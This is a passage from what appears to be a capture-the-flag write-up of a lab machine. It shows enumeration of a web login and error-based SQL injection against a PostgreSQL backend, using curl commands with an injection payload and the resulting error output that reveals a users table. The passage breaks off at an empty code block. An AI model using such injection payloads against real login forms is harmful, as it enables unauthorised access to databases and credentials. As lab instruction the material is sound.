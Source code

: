 ![](img/2022-06-05-14-39-40.png)
We enumerate a user name, `tony`, and the name of the tool in the inferior left corner, `uplusion23`. After researching, `uplusion23` seems useless.
As everything in the web page seems useless, we can try to exploit the SQLi found, to enumerate tables, obtain creds or RCE. First we can try to enumerate tables based on errors:
```bash
❯ curl -X POST "https://admin.megalogistic.com" -d "username=' -&password=1234" -k -s | grep "LINE"
LINE 1: ...ROM users WHERE username = '' -' AND password = md5('1234');
```
We found a table `users` and two columns `username` and `password`. If we execute the same query, but grepping by `ERROR`, we cam see:
```bash
❯ curl -X POST "https://admin.megalogistic.com" -d "username=' -&password=1234" -k -s | grep ERROR
<b>Warning</b>:  pg_query(): Query failed: ERROR:  syntax error at or near &quot;1234&quot;
```
We are injecting into a PostgreSQL database. First thing we can try is testing the users permissions, for example, inserting into tables or created them:
```bash
```